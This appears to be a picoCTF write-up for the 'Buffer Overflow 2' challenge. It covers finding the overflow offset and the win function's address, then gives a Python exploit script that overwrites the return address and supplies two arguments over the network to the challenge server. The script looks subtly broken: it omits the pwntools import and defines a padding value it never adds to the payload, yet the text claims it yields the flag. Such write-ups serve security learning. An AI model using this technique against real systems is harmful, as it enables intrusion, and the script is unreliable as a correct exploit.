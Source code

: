 # Buffer Overflow 2
For this challenge we are given to files: an executable, vuln, and its source in C.</br>
We are also told to control its return address and arguments.</br></br>
Opening the source file, we see the arguments which must be passed to get the flag, 0xCAFEF00D and 0xF00DF00D.<br>
![Vuln Source Code](./vuln.png)</br>

Running the executable, we are asked for an input and it is returned to us. Providing too much input causes a segmentation fault.</br>
![Program output](./overflow.png)

We can use Metasploit and GDB to find out where the buffer overflow occurs.</br>
![Metasploit Create](./metasploit_create.png)</br>
![Metasploit Offset](./offset.png)

We now know it takes 112 characters to cause the buffer overflow.</br>

The next step is to find the memory address of the function we want to jump to, win. Using readelf, we are able to find win at 0x08049296.</br>
![Readelf Output](./win.png)

Here is a python script that connects to the specified server and port and sends the payload to it.</br>
```
#!/bin/env python3

p = connect('saturn.picoctf.net', 62954)
offset = 112
junk = b'A' * offset              #All strings must be converted to byte format
buf = b'\x08\x04\x92\x96'[::-1]   #Addresses on x86 ( Little Endian) are reversed by byte
pad = b'OEBP'                     #Overwrite return address on EBP (4 bytes)
argument1 = b'\xCA\xFE\xF0\x0D'[::-1]
argument2 = b'\xF0\x0D\xF0\x0D'[::-1]
payload = [junk + buf + argument1 + argument2]
payload = b''.join(payload)
p.sendline(payload)
p.interactive()
```

Running it gives us the flag!</br>
![Flag](./flag.png)
